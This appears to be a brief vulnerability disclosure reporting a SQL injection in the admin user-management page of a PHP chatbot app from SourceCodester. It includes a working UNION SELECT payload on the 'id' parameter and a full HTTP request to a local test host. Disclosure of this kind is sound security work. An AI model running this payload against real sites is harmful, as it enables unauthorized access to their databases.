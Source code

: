 # ChatBot App with Suggestion v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15316/chatbot-app-suggestion-phpoop-free-source-code.html

Vulnerability File: /simple_chat_bot/admin/?page=user/manage_user&id=

Vulnerability location: /simple_chat_bot/admin/?page=user/manage_user&id=, id

[+] Payload: /simple_chat_bot/admin/?page=user/manage_user&id=-4%27%20union%20select%201,database(),3,4,5,6,7,8,9,10--+ // Leak place ---> id

```sql
GET /simple_chat_bot/admin/?page=user/manage_user&id=-4%27%20union%20select%201,database(),3,4,5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/170819988-9f7418f3-f05c-4381-b09b-e1ec2ab31cfc.png)

![image](https://user-images.githubusercontent.com/54017627/170819979-df9a9514-79d8-4e3a-b013-c7f72e7ce9a7.png)
